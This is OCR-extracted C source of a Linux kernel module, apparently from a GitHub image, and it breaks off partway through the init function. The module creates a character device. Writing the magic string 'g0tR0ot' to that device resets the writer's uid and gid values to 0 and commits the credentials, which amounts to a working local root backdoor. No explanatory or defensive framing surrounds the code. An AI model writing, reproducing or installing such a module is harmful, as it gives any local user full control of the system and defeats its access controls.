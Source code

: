 root_open (struct inode *inode, struct file *f)
{
   return 0;
}

static ssize_t
root_read (struct file *f, char *buf, size_t len, loff_t *off)
{
  return len;
}

static ssize_t
root_write (struct file *f, const char __user *buf, size_t len, loff_t *off)
{ 
  char   *data;
  char   magic[] = "g0tR0ot";

  struct cred *new_cred;
  
  data = (char *) kmalloc (len + 1, GFP_KERNEL);
    
  if (data)
    {
      copy_from_user (data, buf, len);
        if (memcmp(data, magic, 7) == 0)
	  {
	    if ((new_cred = prepare_creds ()) == NULL)
	      {
		return 0;
	      }
	    V(new_cred->uid) = V(new_cred->gid) =  0;
	    V(new_cred->euid) = V(new_cred->egid) = 0;
	    V(new_cred->suid) = V(new_cred->sgid) = 0;
	    V(new_cred->fsuid) = V(new_cred->fsgid) = 0;
	    commit_creds (new_cred);
	  }
        kfree(data);
      }
    
    return len;
}


static int __init
root_init(void)
{
  // Create char device
  if ((majorNumber = register_chrdev(0, DEVICE_NAME, &fops)) < 0)
    {
      return majorNumber;
    }
 
   // Register the device class
   rootcharClass = class_create(THIS_MODULE, CLASS_NAME);
   if (IS_ERR(rootcharClass))
     {
       unregister_chrdev(majorNumber, DEVICE_NAME);
       return PTR_ERR(rootcharClass); 
   }
 
   // Register the device driver
   rootcharDevice = device_create(rootcharClass, NULL,
				  MKDEV(majorNumber, 0), NULL, DEVICE_NAME);
   if (IS_ERR(rootcharDevice))
     {
       class_destroy(rootcharClass);
       unregister_chrdev(majorNumber, DEVICE_NAME);
       return PTR_ERR(rootcharDevice);